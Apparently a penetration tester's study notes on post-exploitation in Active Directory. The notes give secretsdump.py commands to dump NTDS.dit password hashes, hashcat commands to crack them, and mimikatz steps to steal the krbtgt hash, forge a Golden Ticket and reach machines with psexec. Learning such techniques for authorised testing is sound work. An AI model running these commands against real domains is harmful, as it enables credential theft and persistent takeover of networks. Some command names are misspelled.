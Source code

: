 
Now we own the domain, but what we can do?

So we have to provide as musch value to the client as possible:
- **==we have to put our blinders on and do it again==**
- **==we have to dump the NTDS.dit and crack the passwords==**
- **==we have to enumerate shares for sensitive info==**


<mark style="background: #BBFABBA6;">To avoid access lost we have to create a domain admin account but yhen we have to delete it.</mark>
- we can also create a Golden Ticket

we have to test for the detection of this account, if it is not detected then the client has a severe problem. It is easy to detect an account.

ALWAYS CLEAN THE ENVIRONMENT FROM STUFF WE CREATED!



# Dumping NTDS.dit file

**==This file is a database used to store Active Directory data, including:==**
- user info
- group info
- security descriptors
- password hashes


To dump it we can simply use `secretdumps` **==against the Domain Controller to perform this attack.==**

To do it we can use this command:
```bash
secretsdump.py DOMAIN/username:'PASSWORD'@DOMAIN_CONTROLLER_IP -just-dc-ntlm
```


This will give us the hashes NTLM passwords for the users.

**==What we want to do is to crack only the second part of the hashes:==**
- ![[Pasted image 20241220164805.png]]


We can copy all and use excel to split them on `:` in `DATA -> Text to columns -> delimited -> other -> :`
- ![[Pasted image 20241220165145.png]]


So we can crack all the second parts of the hashes (Column D):
```bash
hashcat -m 1000 ntds.txt rockyou.txt

hashcat -m 1000 ntds.txt rockyou.txt --show
```



Now what we can do is to organize the passwords and have the access to the users.


# Golden Ticket attacks
**==A golden ticket is a ticket that gives us the complete access to every machine in the Active Directory.==**

This can be retrieved if we are able to compromise the `krbtgt` account on the domain.


We can use minikatz to get all the info we need to perform this attack.

To do it we need:
- <mark style="background: #BBFABBA6;">the KRBTGT NTLM hash (easy to get)</mark>
- <mark style="background: #BBFABBA6;">domain SID </mark>
Once we have them we can create a golden ticket we can use anywhere to access to any machine.



**==The KBRTGT account is used to grant the tickets generation.==** 


So first of all we run `minkatz` on the victim machine:
```bash
minikatz.exe

privilege::debug

lsadump::lsa /inject /name:kbrtgt

```


**==At this point we need to copy the SID of the domain: and the NTLM hash of kbrtgt account==**
- ![[Pasted image 20241220170557.png]]
- ![[Pasted image 20241220170632.png]]

**==At this point we can run the golden ticket attack on minikatz==**:
```bash
kerberos::golden /User:fakenusername /domain:DOMAIN /sid:SID_FIND_BEFORE /krbtgt:KRBTGT_HASH /id:OUR_RID /ptt
```
- ![[Pasted image 20241220171117.png]]
- `/ptt` stands for pass the ticket


Now we must succeed:
- ![[Pasted image 20241220171202.png]]


So now we run the cmd:
```bash
misc:cmd
```
- **==it will open a cmd with the golden ticket, so we can access everywhere==**
- ![[Pasted image 20241220171313.png]]


Now we can run psexec to get a machine:
```bash
psexec.exe \\PC_VICTIM cmd.exe
```



**==So basically to use this attack we need to know the:==**
- **==NTLM hash of the KRBTGT account that is responsible to sign the tickets==**
- **==SID of the domain that identify the domain==**
- ==**an user RID (the user id we want impersonate)**==
